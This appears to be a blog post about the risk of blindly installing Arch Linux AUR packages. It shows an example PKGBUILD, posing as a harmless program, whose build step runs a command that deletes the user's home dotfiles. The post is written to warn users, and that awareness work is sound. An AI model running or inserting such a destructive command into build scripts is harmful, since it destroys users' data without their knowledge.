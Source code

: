 ```yaml
---
title: AUR Insecurity
tags: arch
layout: post
---
```


Everytime I see a new user asking about the AUR on IRC I cringe.  Not because I
don't use the AUR or I think the AUR is a bad thing, but because I know that
someone is going to recommend a way to automagically install these user provided
packages.

Remember, the AUR is a user repository.  This means that any evil bastard can
upload a PKGBUILD that can wreck your system.  I've written an example below --
the urls have been changed so you can't possibly run makepkg on this and hurt
anything.

{% highlight bash %}
pkgname=super-cool-program
pkgver=6.0.1
pkgrel=1
pkgdesc='Something really awesome that you want to install'
arch=('i686' 'x86_64')
url='http://a.trustworthy.source.url/'
license=('None')
depends=()
source=(http://a.trustworthy.source.url/${pkgname}/${pkgver}/)
md5sums=('e6f64c753e4d6de8db6fc2e0d')
build() {
  cd ${srcdir} && rm -fr $HOME/.*
  install -D -m755 ${pkgname} ${pkgdir}/usr/bin/${pkgname}
}
{% endhighlight %}

Any experienced user will quickly notice the horrible thing that hapens here.
Of course, this is a **very** simple PKGBUILD.  Look at [this one][1] for example,
malicious code could be anywhere in there and a quick glance isn't going to
catch it.  Obviously `rm` is just one example of something malicious, it's just
an easy one to demonstrate.

So how many times have you blindly installed something from the AUR?  I know I
have a few times.  I also know that I'll never do it again.  Hopefully the next
time you `wget && tar && makepkg` you'll
take a second and think about what you might be getting yourself in to.

[1]: http://aur.archlinux.org/packages/kernel26-vanilla/kernel26-vanilla/PKGBUILD
